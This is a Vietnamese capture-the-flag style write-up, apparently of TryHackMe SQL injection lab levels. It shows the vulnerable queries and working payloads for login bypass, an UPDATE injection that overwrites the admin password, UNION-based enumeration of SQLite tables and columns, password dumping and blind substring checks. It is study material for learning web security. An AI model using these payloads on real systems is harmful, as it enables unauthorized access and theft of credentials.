 # SQL Injection 1: Input Box Non-String
- Khi nhập id và pass là a, a. Chương trình thực hiện truy vấn
```SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID=or 1=1 -- - AND password = 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'```
- Vậy chương trình đã không kiểm tra đầu vào
payload
```1 or 1=1 -- -```

# SQL Injection 2: Input Box String
- ```SELECT uid, name, profileID, salary, passportNr, email, nickName, password FROM usertable WHERE profileID = 'a' AND password = 'ca978112ca1bbdcafac231b39a23dc4da786eff8147c4e72b9807785afee48bb'```
payload
```' OR 1=1 --```

# SQL Injection 3: URL Injection
- Chương trình đã filter các kí tự đặc biệt, tuy nhiên ta có thể inject vào url
```profileID=1' or 1=1 -- -&password=a```

# SQL Injection 4: POST Injection
- ta sử dụng burpsuit

# SQL Injection 5: UPDATE Statement
- Lần này không có bug ở login mà bug ở phần edit profile. Khi ta thực hiện update thông tin thì chương trình thực hiện payload của người dùng mà không kiểm tra
![Alt text](bin/image-15.png)

- Solution THM
```
', password='008c70392e3abfbd0fa47bbc2ed96aa99bd49e159727fcba0f2e6abeb3a9d601' WHERE name='Admin'-- -
```


# Broken Authentication
```a' or 1=1 -- -```

# Broken Authentication 2


- Để kiểm tra số cột `' UNION SELECT 1,2-- - `
- Leak `' UNION SELECT 1,group_concat(password) FROM users-- -`

# Broken Authentication 3

```
SUBSTR( string, <start>, <length>)
LIMIT <OFFSET>, <LIMIT>
SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)
admin' AND length((SELECT password from users where username='admin'))==37-- -
```

# 
- Khi thực hiện note ta thấy chương trình có bug chỗ tên của chúng ta sẽ được truy vấn
![Alt text](bin/image-16.png)
- Khi bắt đầu khai thác sqli mình thường kiểm tra version hoặc kiểm tra số cột (vì phải dùng union nên số cột phải bằng nhau) trước, mình tham khảo cheatsheet về sqlite [PayloadsAllTheThings - SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)

- `' union select 1,2 -- -` để kiểm tra số cột
- `' union select 1,sqlite_version()-- -` để kiểm tra phiên bản

![Alt text](bin/image-17.png)
- Để leak tên table `' union select 1, group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' -- -`
- Leak column `' union select 1, sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='users' -- -`
- Leak password `' union select 1, group_concat(id,password) from users -- -`

# 
- Lỗi tương tự các bài ở trên
![Alt text](bin/image-18.png)
- username: `admin' -- -`

# 
- Kiểm tra cột `') union select 1,2,3,4 --`
![Alt text](bin/image-19.png)
- Kiểm tra table `') union select 1,2,3,group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --`